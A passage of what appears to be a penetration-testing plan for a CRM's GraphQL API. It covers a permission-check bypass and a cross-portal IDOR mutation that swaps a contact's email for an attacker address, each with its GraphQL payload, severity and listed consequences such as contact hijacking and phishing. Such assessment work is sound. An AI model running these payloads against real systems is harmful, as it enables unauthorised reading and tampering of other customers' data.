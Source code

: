 ### 5. Permission Check Bypass (MEDIUM ⭐⭐⭐)

**Objective:** Test if permission checks are enforced

**Method:**
```graphql
query {
  crmObject(id: "restricted-object-id") {
    id
    userPermissions {
      currentUserCanView  # Check if false
      currentUserCanEdit  # Check if false
    }
    properties(names: ["sensitive-field"]) {
      value  # Try to access anyway
    }
  }
}
```

**Attack Implications:**
- Check if permissions are enforced server-side
- Possible to read data even if currentUserCanView=false
- Authorization bypass

**Severity:** Medium-High

---

### 6. Mutation-Based IDOR (CRITICAL ⭐⭐⭐⭐⭐)

**Objective:** Modify objects in other portals

**Method:**
```graphql
mutation {
  updateContact(
    input: {
      id: "target-contact-id"
      portalId: "target-portal-id"
      properties: {
        email: "attacker@evil.com"
      }
    }
  ) {
    id
    properties {
      email
    }
  }
}
```

**Attack Implications:**
- Data tampering across portals
- Contact hijacking
- Email/phone number changes for phishing
